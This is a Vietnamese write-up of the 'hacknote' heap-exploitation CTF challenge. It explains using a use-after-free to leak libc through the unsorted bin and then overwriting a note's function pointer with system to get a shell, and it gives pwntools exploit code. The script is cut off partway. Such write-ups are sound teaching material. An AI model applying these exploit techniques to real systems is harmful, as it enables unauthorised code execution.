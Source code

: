 - ban đầu mình nghĩ ngay đến hướng làm sử dụng UAF và DBF để khai __free_hook thành system và lấy shell, nhưng mà khoan đã, hãy đọc kĩ ida đi, number chỉ giới hạn có lần 5 add, mà để sử dụng double free để leak libc hay tạo shell vì 5 lần add chắc chắn là không bao giờ đủ
- chuyển hướng khai thác khác thg option 3, vì nó có hàm call content cái chunk 1 nên nếu ta có thể lợi dụng lỗi Use After Free để thay đổi content chunk 1 thành system thì ta hoàn toàn lấy được shell

## exploit
### Stage 1: leak libc
- trước tiên ta cần leak libc đã
- để leak libc thì ta cần tạo 1 chunk lớn hơn 0x400 để sau khi free nó sẽ lưu vào unsorted bins (nhớ tạo thêm 1 chunk bất kì để ngăn cách chunk này vs top chunk)
- nma khi ta free bằng option 2 là nó free luôn cái output trong chunk 1 của ta luôn làm ta ko in được libc => sử dụng UAF để khởi tạo lại output cho chunk 1
- tính offset và ta có libc base

```python 
output = 0x804862b

add(0x508, b'a'*0x4) # 0
add(0x18, b'a'*0x4) # 1
delete(b'0')
delete(b'1')
add(0x8, p32(output)) # 2
# dừng ở đây và quan sát ta sẽ thấy output đã được khởi tạo lại cho chunk 1
show(b'0')
libc_leak = u32(p.recv(4))
libc.address = libc_leak - 0x1b07b0
print(hex(libc_leak))
print(hex(libc.address))
```

### Stage 2: get shell

- sau khi có được libc rồi ta free thằng add() 2 đi để sử dụng lại tạo shell
- ban đầu mình tính dùng one_gadget nma ko được rồi :))
- nên h ta phải dùng system thôi , thay vì call thg output thì giờ thành call system
- file 32 bit nên ta ko chèn /bin/sh\0 được, tham khảo wu thì ta chèn ||sh thôi
- gọi show() và lấy shell thôi

![image](https://github.com/gookoosss/CTF/assets/128712571/d103facf-1656-4dac-b615-6e5051769245)


## script 

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./hacknote_patched")
libc = ELF("./libc_32.so.6")
ld = ELF("./ld-2.23.so")

context.binary = exe
# p = process([exe.path])
        
# gdb.attach(p, gdbscript = '''
# b*0x08048701
# b*0x0804872C
# b*0x08048789
# b*0x08048863
# b*0x08048879
# b*0x080488E0
```